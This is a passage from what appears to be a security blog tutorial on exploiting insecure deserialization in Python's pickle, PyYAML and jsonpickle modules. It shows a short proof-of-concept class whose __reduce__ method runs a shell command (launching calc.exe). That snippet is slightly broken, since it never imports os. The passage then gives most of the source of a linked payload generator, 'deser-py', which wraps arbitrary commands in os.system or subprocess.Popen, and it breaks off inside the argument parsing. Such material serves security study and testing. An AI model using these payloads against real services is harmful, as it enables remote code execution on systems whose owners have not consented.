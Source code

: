 As for the previous two modules, the serialization process uses `__reduce__` to create the serialized representation of the object. Generate a working exploit is as easy as it was for PyYAML, and can be done using the following code:

```python
import yaml

class Payload:
    def __reduce__(self):
        return (os.system, ("cmd /c calc.exe",))
    
yaml.load(Payload())
```

Ok, that's seems interesting, but still we would like to generate our serialized payloads without rewriting the code anytime we need to issue a different command, right? So, last but not least, we'll explore a way to dynamically generate valid payloads for all the python modules we saw above.

**Generating Exploits for pickle, PyYAML, and jsonpickle**

I created the following tool, called **deser-py**, which can be used to generate different payloads for pickle, yaml and jsonpickle. The tool can be also downloaded [here](https://github.com/klezVirus/deser-py).

```python
import os
import _pickle
import subprocess
import jsonpickle
import sys
import yaml
import argparse


class Payload:
    def __init__(self, commands, vector=None):
        self.vector = vector
        self.commands = commands

    def __reduce__(self):
        if self.vector == "os":
            return os.system, (self.commands,)
        elif self.vector == "subprocess":
            return subprocess.Popen, (self.commands,)


def print_available_formats():
    available_formats = {
        "pickle": "Format for cPickle and _pickle modules",
        "json": "Format for jsonpickle module",
        "yaml": "Format for PyYAML module"
        }
    for k, v in available_formats.items():
        print(f"    {k}: {v}")


if __name__ == "__main__":
    parser = argparse.ArgumentParser(
        description='deser-py - A simple serialization payload generator', add_help=True)

    parser.add_argument(
        '-d', '--debug', required=False, action='store_true', default=False,
        help='Enable debug messages')
    parser.add_argument(
        '-s', '--save', required=False, action='store_true', default=False,
        help='Save payload to file')
```